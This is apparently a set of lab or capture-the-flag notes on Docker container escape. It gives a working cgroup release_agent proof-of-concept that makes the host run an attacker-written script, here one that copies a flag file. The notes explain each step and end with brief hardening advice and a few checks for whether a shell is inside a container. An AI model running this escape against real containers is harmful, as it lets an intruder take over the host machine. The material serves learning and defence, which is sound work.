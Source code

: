 
proof of concept
```
mkdir /tmp/cgrp && mount -t group -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release

host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

echo "$host_path/exploit" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /exploit

echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

chmod a+x /exploit

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

```

Code snippets summary

We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "`cgroups`" to manage processes on the operating system since we have capabilities to manage "`cgroups`" as root on the host, we'll mount this to "`/tmp/cgrp`" on the container.

For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "`/tmp/cgrp/x/notify_on_release`", we're telling the kernel to execute something once the "`cgroup`" finishes.

We find out where the containers files are stored on the host and store it as a variable

Where we then echo the location of the containers files into our "`/exploit`" and then ultimately to the "release_agent" which is what will be executed by the "`cgroup`" once it is released.

---

## Securing your container

Principle of least privileges, Docker commands run as root unless told otherwise

Docker Seccomp (Secure computing) = restrict capability of a container by determining the system calls it can make
- http://docs.docker.oeynet.com/engine/security/seccomp/#pass-a-profile-for-a-container
- prevent mount namespace 

securing your daemon
- running a Docker registry relies on use of self-signed SSL certs behind a web server (not quick, is a hassle)

## in a container?

a Docker container has far fewer processes running vs a VM

look for a `.dockerenv` file in the `/` directory
